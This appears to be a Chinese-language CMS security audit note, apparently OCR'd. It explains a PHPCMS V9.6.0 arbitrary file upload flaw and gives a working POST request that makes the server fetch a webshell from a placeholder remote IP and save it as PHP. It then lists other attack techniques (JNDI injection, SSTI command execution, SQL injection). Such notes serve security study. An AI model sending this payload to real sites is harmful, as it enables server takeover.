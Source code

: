 ## CMS审计

### PHPCMSV9.6.0任意文件上传漏洞

利用点在 `phpcms/libs/classes/attachment.class.php `中的 `download` 函数

如果我们构造`src=http://xxx.xxx.xxx.xxx/shell.txt?.php#.jpg`，jpg后缀通过了正则，之后经过`fillurl`则变为`http://xxx.xxx.xxx.xxx/shell.txt?.php`，接下来`fileext`函数中取得后缀是php，这个函数内部用的是`strrchr`(查找字符串在另一个字符串中最后一次出现的位置，并返回从该位置到字符串结尾的所有字符)，接下来再经过getname就会返回一个php后缀的文件，里面的内容则是`http://xxx.xxx.xxx.xxx/shell.txt`当中的内容, post数据

```
POST /xxx.xxx.xxx.com/index.php?m=member&c=index&a=register&siteid=1&XDEBUG_SESSION_START=17518 HTTP/1.1

siteid=1&modelid=1&username=1&password=123456&email=1@1.com&info[content]=<img src=http://xxx.xxx.xxx.xxx/shell.txt?.php#.jpg>&dosubmit=1&protocol=
```

**注释: xxx.xxx.xxx.xxx 填公网ip或者其它服务**

## 小结

文件写入

- 短标签写 shell

thinkphp3

- 反序列化 sql 报错注入

Java

- JNDI注入

SSTI

- lipsum 命令执行
- re.match() 匹配超时

SQL注入

- 二次注入